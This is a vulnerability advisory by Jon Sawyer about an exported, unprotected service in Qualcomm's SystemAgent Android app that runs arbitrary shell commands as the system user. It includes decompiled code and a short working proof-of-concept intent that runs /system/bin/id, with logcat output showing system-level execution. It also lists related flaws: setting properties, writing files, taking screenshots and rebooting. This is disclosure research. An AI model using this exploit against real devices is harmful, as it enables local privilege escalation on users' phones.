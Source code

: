 # CVEs
- None CVEs requested / None assigned, reported directly to vendor
- Issue 1: Qualcomm SystemAgent application allows unprivledged user execution of shell commands as system user
- Issue 2: QSA applications allows ability for unprivledged user to set system properties.
- Issue 3: QSA applications allows ability for unprivledged user to write strings as system user.
- Issue 4: QSA applications allows ability for unprivledged user take a screen shot of device.
- Issue 5: QSA applications allows ability for unprivledged user reboot the device.

## Authors
- Jon “jcase” Sawyer - jcase@cunninglogic.com

## Affected Devices (tested on)
- Accatel A564C (TCL/ALCATEL_A564C/Yaris5NA:4.4.2/KVT49L/v4FAZ-0-0:user/release-keys)
- Potentially other devices with the com.qualcomm.agent package install on it

## Main (interesting) Vulnerability 

Only diving directly into the interesting vulnerability which is the Qualcomm SystemAgent application allowing an unprivledged user to
 execute any shell commands as system user. This application apparently was never meant to ship on production devices.

### Result
Local privilege escalation to system user, with multiple groups running in the system_app context

### Overview

The Qualcomm SystemAgent application (package name `com.qualcomm.agent`) has an unsecured (exported, no permissions required):

```
<service android:name="com.qualcomm.agent.SystemAgent">
<!-- snip -->
    <intent-filter>
        <action android:name="android.system.fullagent" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</service>
```

The when a `startService` broadcast is sent to the `SystemAgent` using the fullagent action intent, the service executes the intent's "para"
data field as a shell command.

```
Values.ACTION_FULL_AGENT = "android.system.fullagent";

public int onStartCommand(Intent intent, int flags, int startId) {
// .. snip ..
    else if(Values.ACTION_FULL_AGENT.equals(intent.getAction())) {
        this.exec(intent.getStringExtra("para"));
    }

    return 1;
}

    void exec(String para) {
        new Thread() {
            final SystemAgent this$0;
            final String val$para;

            public void run() {
                int v13 = 0x23;
                try {
                    SystemAgent.logd(this.val$para);
                    String[] paras = this.val$para.split(",");
                    int i;
                    for(i = 0; i < paras.length; ++i) {
                        SystemAgent.logd(i + ":" + paras[i]);
                    }

                    Process mProcess = Runtime.getRuntime().exec(paras);
                    mProcess.waitFor();
                    BufferedReader inBuffer = new BufferedReader(new InputStreamReader(mProcess.getInputStream()));
                    String data;
                    for(data = ""; true; data = data + s + "\n") {
                        String s = inBuffer.readLine();
                        if(s == null) {
                            break;
                        }
                    }

                    SystemAgent.logd(data);
                    int result = mProcess.exitValue();
                    SystemAgent.logd("ExitValue=" + result);
                    String resultProp = paras[0] + ",";
                    if(result >= 0 && result != 0xFF) {
                        resultProp = data.length() > v13 ? resultProp + data.substring(0, 0x23) : resultProp + data;
                    }

                AgentUtils.setSystemProperties(Values.AGENT_RESULT_PROP, resultProp);
                    return;
                }
                catch(Exception e) {
                    SystemAgent.logd(e);
                    return;
                }
            }
        }.start();
    }
```

### Proof of concept

```
ComponentName intentComponent = new ComponentName("com.qualcomm.agent", "com.qualcomm.agent.SystemAgent");
Intent serviceIntent = new Intent ("android.system.fullagent");
serviceIntent.setComponent(intentComponent);
serviceIntent.putExtra("para", "/system/bin/id");
startService(serviceIntent);
```

Result from logcat:
```
  D/SystemAgent( 4109): [onCreate] RUN
  D/SystemAgent( 4109): [onStartCommand] 1
  D/SystemAgent( 4109): [access$000] /system/bin/id
  D/SystemAgent( 4109): [access$000] 0:/system/bin/id
  D/SystemAgent( 4109): [access$000] uid=1000(system) gid=1000(system) groups=1000(system),1004(input),1010(wifi),1015(sdcard_rw),1021(gps),1023(media_rw),1028(sdcard_r),2002(diag),3001(net_bt_admin),3002(net_bt),3003(inet),3004(net_raw),3005(net_admin),3009(qcom_diag),41000(u0_a31000) context=u:r:system_app:s0
  D/SystemAgent( 4109): [access$000] ExitValue=0
```

### Additional related vulnerabilities in SystemAgent application

More issues are found inside the method `private void doSystemActions(String para)`, which 
are located and accessable in the same service. This  allows an unprivledged application/user to:
- Set system properties
- Write strings to files as system user (writeFileAgent)
- Take a screen shot and save it to “/storage/sdcard1/logs/screenshot.png"
- Reboot the device﻿
